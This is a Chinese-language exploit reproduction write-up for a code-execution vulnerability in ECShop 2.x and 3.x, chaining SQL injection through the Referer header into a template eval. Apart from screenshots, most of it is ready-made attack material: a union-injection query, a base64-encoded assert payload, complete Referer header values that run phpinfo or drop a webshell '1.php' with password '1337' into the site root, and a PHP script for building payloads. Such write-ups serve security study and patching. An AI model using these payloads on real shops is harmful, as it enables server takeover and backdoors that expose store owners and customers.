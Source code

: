 ECShop \<= 2.7.x 代码执行漏洞
=============================

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析

![](resource/ECShop=2.7.x代码执行漏洞/media/rId25.png)

继续看fetch函数

![](resource/ECShop=2.7.x代码执行漏洞/media/rId26.png)

追踪\_eval函数

![](resource/ECShop=2.7.x代码执行漏洞/media/rId27.png)

\$position\_style变量来源于数据库中的查询结构

![](resource/ECShop=2.7.x代码执行漏洞/media/rId28.png)

然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了
所以需要在id处构造注释来配合num进行union查询

![](resource/ECShop=2.7.x代码执行漏洞/media/rId29.png)

payload

    SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- -

函数中有一个判断

![](resource/ECShop=2.7.x代码执行漏洞/media/rId30.png)

我们 id传入'/\*

num传入\*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10-- -就能绕过了

![](resource/ECShop=2.7.x代码执行漏洞/media/rId31.png)

var\_dump一下

![](resource/ECShop=2.7.x代码执行漏洞/media/rId32.png)

![](resource/ECShop=2.7.x代码执行漏洞/media/rId33.png)

再看fetch函数,传入的参数被fetch\_str函数处理了

![](resource/ECShop=2.7.x代码执行漏洞/media/rId34.png)

追踪fetch\_str函数，这里的字符串处理流程比较复杂

![](resource/ECShop=2.7.x代码执行漏洞/media/rId35.png)

    return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source);

这一行意思是比如\$source是xxxx{\$asd}xxx,那么经过这行代码处理后就是返回this-\>select('\$asd')的结果

看看select函数

![](resource/ECShop=2.7.x代码执行漏洞/media/rId36.png)

第一个字符为\$时进入\$this-\>get\_val函数

![](resource/ECShop=2.7.x代码执行漏洞/media/rId37.png)

我们\$val没有.\$又进入make\_var函数

![](resource/ECShop=2.7.x代码执行漏洞/media/rId38.png)

最后这里引入单引号从变量中逃逸

![](resource/ECShop=2.7.x代码执行漏洞/media/rId39.png)

我们要闭合\_var所以最终payload是

    {$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx

会在网站跟目录生成1.txt 里面内容是getshell

![](resource/ECShop=2.7.x代码执行漏洞/media/rId40.png)

### 2.x

phpinfo():

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca

webshell:

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}

　　会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

webshell:

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

　　会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

　　下面给出一个序列化的php脚本（第9个位置就是你想要的）：

    <?php
    $arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
    echo serialize($arr);
    ?>

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449
